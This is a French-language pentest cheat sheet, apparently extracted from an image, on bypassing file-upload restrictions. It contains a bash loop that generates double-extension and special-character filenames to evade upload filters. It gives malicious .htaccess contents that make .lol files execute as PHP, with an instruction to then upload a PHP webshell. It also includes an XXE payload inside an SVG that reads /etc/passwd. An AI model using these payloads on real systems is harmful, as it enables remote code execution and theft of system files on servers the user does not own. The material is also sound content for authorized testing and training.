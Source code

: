 ### Générer une WordList avec double extensions et caractères speciaux

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "88930bde509f95012ce4d0fced039642$char$ext.jpg" >> wordlist.txt
        echo "88930bde509f95012ce4d0fced039642$ext$char.jpg" >> wordlist.txt
        echo "88930bde509f95012ce4d0fced039642.jpg$char$ext" >> wordlist.txt
        echo "88930bde509f95012ce4d0fced039642.jpg$ext$char" >> wordlist.txt
    done
done
```


### Content type wordlist

https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt

### MIME Types

https://en.wikipedia.org/wiki/List_of_file_signatures


### .HTACCESS

Tenter de bypass les restrictions du .htaccess en uploadant un fichier .htaccess malicieux

Content-Type: text/plain

Contenu du fichier (permet d'executer du php dans des fichiers .lol)

```
AddType application/x-httpd-php .lol
```

ou plus complet

```
<FilesMatch "1.lol">
SetHandler application/x-httpd-php
AddHandler php5-script .lol
AddType application/x-httpd-php .lol
</FilesMatch>
php_flag engine on
```

upload ensuite 1.lol avec webshell php




## XXE attack

Lire fichier system

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```
